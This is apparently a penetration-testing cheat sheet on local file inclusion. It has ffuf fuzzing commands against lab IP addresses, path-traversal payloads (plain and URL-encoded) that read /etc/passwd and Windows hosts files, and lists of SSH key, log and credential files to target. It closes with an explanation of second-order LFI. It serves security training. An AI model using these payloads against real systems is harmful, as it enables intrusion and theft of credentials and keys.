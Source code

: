 1. View users on machine
2. Search for SSH Keys
3. Search for passwords in log or configuration files (.htaccess, config.php)

```bash
ffuf -w ~/opt/wordlists/burp-parameter-names.txt:FUZZ -u 'http://94.237.56.156:53371/index.php?FUZZ=value'

ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.56.156:53371/index.php?page=FUZZ'

ffuf -w ~/opt/wordlists/LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>/index.php?language=../../../../FUZZ'
```


```http
/../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\..\..\..\windows\system32\drivers\etc\hosts

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/windows/system32/drivers/etc/hosts
\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\windows\system32\drivers\etc\hosts
```

##### SSH Keys
```bash
id_rsa
id_ecdsa
id_ecdsa_sk
id_ed25519
id_ed25519_sk
id_dsa

authorized_keys
id_rsa.keystore
id_rsa.pub
known_hosts
```

##### HTTPD, Apach2, Nginx logs
```bash
/var/log/apache/access.log 
/var/log/apache2/access.log 
/var/log/apache/access_log 
/var/log/apache2/access_log
/var/log/access_log
/var/log/nginx/access.log 
/var/log/nginx/access_log 
/etc/httpd/logs/access_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access. log 
/opt/apache2/logs/access_log
/opt/apache2/logs/access.log
/opt/apache/logs/access_log
/opt/apache/logs/access.log
```

##### IIS
```bash
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

##### Linux user specific
```bash
.bash_history
.mysql_history
.my.cnf
```

##### Windows
```powershell
c:\apache\php\php.ini 
c:\xampp\apache\bin\php.ini  
c:\xampp\apache\logs\access.log
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
```

## Second-Order Attacks

As we can see, LFI attacks can come in different shapes. Another common, and a little bit more advanced, LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

In this case, we would be poisoning a database entry with a malicious LFI payload in our username. Then, another web application functionality would utilize this poisoned entry to perform our attack (i.e. download our avatar based on username value). This is why this attack is called a `Second-Order` attack.

Developers often overlook these vulnerabilities, as they may protect against direct user input (e.g. from a `?page` parameter), but they may trust values pulled from their database, like our username in this case. If we managed to poison our username during our registration, then the attack would be possible.

Exploiting LFI vulnerabilities using second-order attacks is similar to what we have discussed in this section. The only variance is that we need to spot a function that pulls a file based on a value we indirectly control and then try to control that value to exploit the vulnerability.

